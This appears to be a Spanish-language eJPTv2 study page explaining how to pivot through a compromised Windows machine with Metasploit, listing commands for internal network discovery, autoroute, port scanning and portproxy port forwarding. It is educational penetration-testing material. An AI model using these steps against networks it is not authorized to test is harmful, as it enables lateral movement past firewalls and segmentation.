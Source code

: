 ```yaml
---
layout: default
title: Preparación EJPTv2
---
```


# Pivoting con Metasploit utilizando una máquina Windows 📡

El pivoting es una técnica esencial en la fase de post-explotación que permite a un atacante moverse lateralmente dentro de una red comprometida, utilizando un sistema ya infiltrado como punto de apoyo. En entornos Windows, Metasploit facilita este proceso mediante el uso de sesiones Meterpreter, tunelización y Port forwarding para acceder a sistemas internos que no son visibles desde el exterior.

----

## 📝 Objetivos principales del Pivoting:

🌐 Expandir el acceso dentro de la red interna.

🔥 Evadir restricciones de segmentación y firewalls.

🔒 Acceder a recursos internos que permanecen ocultos desde el exterior.

## Configuración de Pivoting en Metasploit

- Identificación de la red interna

El primer paso consiste en identificar las redes accesibles desde la máquina comprometida.

```bash
ipconfig          # Obtener información de interfaces y redes disponibles.
route print       # Ver las rutas de la tabla de enrutamiento.
arp -a            # Identificar hosts en la misma subred.
```

Una vez identificada una red interna, dejamos la sesión en segundo plano con Ctrl + Z. Verificamos las sesiones activas:

```bash
sessions -l       # Listar las sesiones activas.
```


- Escaneo de la red interna

Desde Metasploit, usamos el módulo ARP Scanner para descubrir equipos activos en la red interna:

```bash
use windows/gather/arp_scanner   # Identificar equipos activos en la red interna.
set RHOSTS <ip_víctima_windows/24>
set SESSION <session_id>          # Obtenido con sessions -l.
run
```

Esto nos mostrará las direcciones IP detectadas dentro del rango de red de la máquina Windows comprometida.

## Enrutamiento del tráfico con Autoroute

Ahora, configuramos el tráfico para que desde la máquina intermedia se reenvíe el tráfico hacia la máquina víctima final utilizando el módulo Autoroute:

```bash
use multi/manage/autoroute
show options                # Ver opciones disponibles.
set SESSION <session_id>    # Obtener con sessions -l.
run
```

Con esto, establecemos una ruta a través de la máquina intermedia, permitiendo el movimiento lateral dentro de la red.

## Escaneo de puertos de la máquina víctima final

Una vez configurado el enrutamiento, realizamos un escaneo de puertos para identificar los servicios expuestos por la máquina víctima final:

```bash
use scanner/portscan/tcp
show options                # Ver opciones necesarias.
set RHOSTS <ip_víctima_final>
run
```

## Configuración de Port Forwarding

Ahora, configuramos el port forwarding para redirigir tráfico desde la máquina víctima final hacia nuestro equipo atacante:

```bash
use post/windows/manage/portproxy
show options                # Ver opciones necesarias.
set CONNECT_ADDRESS <ip_víctima>   # IP de la máquina víctima final.
set CONNECT_PORT <puerto_víctima>  # Puerto de la víctima a atacar.
set LOCAL_ADDRESS 0.0.0.0          # Siempre usar 0.0.0.0.
set LOCAL_PORT <puerto_local>       # Puerto local donde recibir el tráfico.
set SESSION <session_id>            # Obtenido con sessions -l.
run
```

## Acceso al puerto redirigido

Por último, accedemos al puerto redirigido desde nuestro navegador utilizando la IP de la máquina intermedia y el puerto configurado:

```bash
<ip_máquina_intermedia>:<puerto_local>   # Ejemplo: 10.10.10.9:5000
```

Con esto, habremos establecido un túnel para acceder a los servicios internos de la red comprometida, superando las restricciones impuestas por firewalls y segmentaciones.

---  

<div style="text-align:center; font-size: 0.9em; margint-top: 40px; color: #33ff33;">
    💻 Hecho con 💚 por <strong>Marcela</strong> - 2025
</div>

